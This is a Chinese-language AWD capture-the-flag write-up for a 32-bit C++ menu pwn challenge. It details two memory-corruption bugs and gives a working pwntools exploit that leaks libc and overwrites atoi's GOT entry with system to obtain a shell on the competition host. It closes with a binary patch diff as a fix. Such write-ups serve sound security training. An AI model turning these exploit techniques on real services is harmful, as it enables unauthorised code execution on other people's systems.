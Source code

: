 # awd

本次awd共2道web一道pwn

队友：Doddy & mysid

从上午的个人赛发现几乎都没什么人会pwn，疯狂拿分夺得第三！

## pwn赛题

> 题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到

### 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |No    |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.16|

### 程序粗解

C++菜单题，只用到了`cout`和`endl`，使用`atoi`来把输入的字符串转换为int

### 漏洞分析

1. `main`函数中输入菜单项时，在栈上存在可以覆盖的指针，随后可以对指针写入任意内容

![bug1](assets/bug1.png)

> [!IMPORTANT]
> `"%4094s"`不允许修改，否则过不了check

![add](assets/add.png)

2. `edit`函数中输入的索引可以基于`heap`做任意写，未经检查

![bug2](assets/bug2.png)

### 个人题解

可以先利用任意地址写把`GOT[atoi]`写到`heap`上，这样`show`就能leak libc；
然后再利用`edit`就可以把`system`的地址写上去，最后输入 *'/bin/sh'* 就可以拿shell

> [!NOTE]
> 本来想再次利用scanf原语的，但是输入的是`system`的数字，实际写的时候却变成了-1，
> 知道原因的话可以开一个 discussion

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './pwn3'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib32/libc.so.6')
    else:
        sh = remote('10.103.2.3', 9999)
        libc = ELF('./libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'shop===', b'1'.ljust(0x30, b'\0') + p32(elf.symbols['heap']))
    sh.sendlineafter(b'Size', str(elf.got['atoi']).encode())
    sh.sendlineafter(b'shop===', b'3')
    sh.sendlineafter(b'Index', b'0')
    sh.recvuntil(b'content:')
    
    libcBase = u32(sh.recv(4)) - libc.symbols['atoi']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    info(f'system@{libc.symbols["system"]:#x}')

    sh.sendlineafter(b'shop===', b'4'.ljust(0x30, b'\0') + p32(elf.got['atoi']))
    # sh.sendlineafter(b'Size', str(libc.symbols['system']).encode())
    sh.sendlineafter(b'Index', b'-7')
    sh.sendlineafter(b'content:', p32(libc.symbols['system']))
    sh.sendlineafter(b'shop===', b'/bin/sh')

    sh.clean()
    sh.interactive()
```

### 参考修复方案

先上个通用沙箱，然后patch以下问题

```diff
--- orig.S
+++ patched.S
@@ -8049b69,8049b7c +8049b69,8049b7c @@
 ; main
-8d 85 f4 ef ff ff      lea eax, [ebp - 0x100c]
-83 c0 30               add eax, 0x30
-8b 00                  mov eax, DWORD PTR [eax]
+8d 83 60 00 00 00      lea eax, [ebx + 0x60]   ; &data_start
+90                     nop
+90                     nop
+90                     nop
+90                     nop
 83 ec 0c               sub esp, 0xc
 50                     push eax
 e8 2a fa ff ff         call add
@@ -8049a95,8049ab3 +8049a95,8049ab3 @@
 ; edit
 8b 45 f0               mov eax, DWORD PTR [ebp - 0x10]
 8d 14 85 00 00 00 00   lea edx, [eax * 4]
-8d 83 70 00 00 00      lea eax, [ebx + 0x70]
-01 d0                  add eax, edx
+8d 83 68 00 00 00      eax, [ebx + 0x68]       ; &DW.ref.__gxx_personality_v0
+90                     nop
+90                     nop
 83 ec 04               sub esp, 0x4
 6a 08                  push 0x8
 50                     push eax
 6a 00                  push 0x0
 e8 0c f8 ff ff         call read
```

第一处修改，把地址修改为bss上的地址个人认为比较好，但是第二处修改由于本质上没有做检查，
实际上有所疏漏

